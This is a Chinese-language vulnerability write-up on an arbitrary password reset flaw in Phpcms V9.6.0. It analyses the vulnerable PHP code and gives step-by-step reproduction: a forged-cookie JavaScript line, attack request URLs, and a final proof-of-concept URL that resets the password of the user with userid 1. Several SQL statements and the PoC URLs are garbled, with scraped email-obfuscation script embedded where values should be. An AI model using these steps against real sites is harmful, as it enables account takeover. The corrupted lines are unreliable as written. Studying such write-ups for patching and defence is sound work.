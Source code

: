 Phpcms V9.6.0 任意密码重置漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

### 漏洞分析

`/phpcms/modules/member/index.php` 第267到312行

    public function send_newmail() {
        $_username = param::get_cookie('_regusername');
        $_userid = param::get_cookie('_reguserid');
        $_ssouid = param::get_cookie('_reguseruid');
        $newemail = $_GET['newemail'];
     
        if($newemail==''){//邮箱为空，直接返回错误
            return '2';
        }
        $this->_init_phpsso();
        $status = $this->client->ps_checkemail($newemail);
        if($status=='-5'){//邮箱被占用
            exit('-1');
        }
        if ($status==-1) {
            $status = $this->client->ps_get_member_info($newemail, 3);
            if($status) {
                $status = unserialize($status); //接口返回序列化，进行判断
                if (!isset($status['uid']) || $status['uid'] != intval($_ssouid)) {
                    exit('-1');
                }
            } else {
                exit('-1');
            }
        }
        //验证邮箱格式
        pc_base::load_sys_func('mail');
        $code = sys_auth($_userid.'|'.microtime(true), 'ENCODE', get_auth_key('email'));
        $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1";
     
        //读取配置获取验证信息
        $member_setting = getcache('member_setting');
        $message = $member_setting['registerverifymessage'];
        $message = str_replace(array('{click}','{url}','{username}','{email}','{password}'), array('<a href="'.$url.'">'.L('please_click').'</a>',$url,$_username,$newemail,$password), $message);
     
        if(sendmail($newemail, L('reg_verify_email'), $message)){
            //更新新的邮箱，用来验证
            $this->db->update(array('email'=>$newemail), array('userid'=>$_userid));
            $this->client->ps_member_edit($_username, $newemail, '', '', $_ssouid);
            $return = '1';
        }else{
            $return = '2';
        }
        echo $return;
    }

　　`$_userid`用 `param::get_cookie('_reguserid')` 来获取

跟进去：`/phpv9.6.0/phpcms/libs/classes/param.class.php` 第106-117行。

    public static function get_cookie($var, $default = '') {
        $var = pc_base::load_config('system','cookie_pre').$var;
        $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
        if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
            $value = intval($value);
        } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
            $value = safe_replace($value);
        }
        return $value;
    }

　　这时候的\$var的值是\_reguserid，
然后获取前缀。`pc_base::load_config('system','cookie_pre')`

　　\$var的值就变成了gggCB\_\_reguserid，然后进到`sys_auth($_COOKIE[$var], 'DECODE')`,由于这个值我们是可控的，那找个可控的地方加密一下，也就是注册的时候，把名字注册成1xxxx(为什么是这样的后面会说)
，然后他会对username进行加密，我们只要注册一个号，然后复制出里面username的值就行。

接着有个if判断，这就是我说文章分析错的地方，这里的\$var的值是gggCB\_\_reguserid，根本不在后面的这个数组里面，所以进入不到\$value
= intval(\$value);

所以不能intval出数字来，所以文章分析错了，但是还是能密码重置。接着看，返回了\$value的值，也就是1xxxx。

省略中间的运行：来到304行，看这句

`$this->db->update(array('email'=>$newemail), array('userid'=>$_userid));`

进行update操作，\$newemail的值是我们给的，\$\_userid是 1xxxx 。

跟进去形成sql修改。语句是这样的。

    UPDATE `phpcms`.`v9_member` SET <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="7f1f1a121e16131f42581e1e4d4d4c1b3f0e0e511c1012">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>' WHERE `userid` = '1xxxx'

然后在mysql中，where 1 = \'1sFdsfdsf\'
是相等的，因为后面的字符串转为了数组1

![1.png](resource/PhpcmsV9.6.0任意密码重置漏洞/media/rId25.png)

所以他的语句就变成了

    UPDATE `phpcms`.`v9_member` SET <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="38585d5559515458051f59590a0a0b5c784949165b5755">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>' WHERE `userid` = '1'

然后重置掉了用户userid为1 的用户

2.png

### 漏洞复现

大概的攻击流程是这样的。

注册一个1xxx
，然后获取cookie中的username的值，然后切换一个浏览器，再次打开网页，在f12中，设置cookie的值，注意\_\_reguserid前面的gggCB也要和username的值一样

`document.cookie='gggCB__reguserid=2f22C0FxoGesxWq73GqUXpuJBDAAEO_KZL5MuEDDeaEj9w'`

然后访问
`/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=q12<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="b784838281f7c6c699d4d8da">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>`

看到页面返回1就代表成功了，然后就去

`/index.php?m=member&c=index&a=public_forget_password&siteid=1`

输入你的邮箱 重置掉userid=1的密码。

最终poc为

    https://www.0-sec.org/index.php?m=member&c=index&a=send_newmail&siteid=<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="b8899ed6ddcfddd5d9d1d485d9d98a8a8ad9f8c9c996dbd7d5">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>

参考链接
--------

> https://www.cnblogs.com/yangxiaodi/p/6890298.html
